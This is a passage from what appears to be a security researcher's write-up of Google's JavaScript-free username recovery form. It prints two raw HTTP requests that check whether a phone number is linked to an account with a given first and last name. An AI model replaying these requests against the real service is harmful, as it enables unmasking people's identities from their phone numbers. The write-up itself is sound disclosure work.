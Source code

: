 Request Google's help

‎

This surprised me, as I used to think these account recovery forms [required javascript since 2018](https://news.ycombinator.com/item?id=18349887) as they relied on botguard solutions generated from heavily obfuscated proof-of-work javascript code for anti-abuse.

### A deeper look into the endpoints

The username recovery form seemed to allow you to check if a recovery email or phone number was associated with a specific display name. This required 2 HTTP requests:

‎

**Request**

```hljs http
POST /signin/usernamerecovery HTTP/2
Host: accounts.google.com
Cookie: __Host-GAPS=1:a4zTWE1Z3InZb82rIfoPe5aRzQNnkg:0D49ErWahX1nGW0o
Content-Length: 81
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Email=+18085921029&hl=en&gxf=AFoagUVs61GL09C_ItVbtSsQB4utNqVgKg%3A1747557783359
```

> The cookie and gxf values are from the initial page HTML

‎

**Response**

```hljs plaintext
HTTP/2 302 Found
Content-Type: text/html; charset=UTF-8
Location: https://accounts.google.com/signin/usernamerecovery/name?ess=..<SNIP>..&hl=en
```

This gave us a `ess` value tied to that phone number we can use for the next HTTP request.

‎

**Request**

```hljs plaintext
POST /signin/usernamerecovery/lookup HTTP/2
Host: accounts.google.com
Cookie: __Host-GAPS=1:a4zTWE1Z3InZb82rIfoPe5aRzQNnkg:0D49ErWahX1nGW0o
Origin: https://accounts.google.com
Content-Type: application/x-www-form-urlencoded
Priority: u=0, i

challengeId=0&challengeType=28&ess=<snip>&bgresponse=js_disabled&GivenName=john&FamilyName=smith
```

This request allows us to check if a Google account exists with that phone number as well as the display name `"John Smith"`.
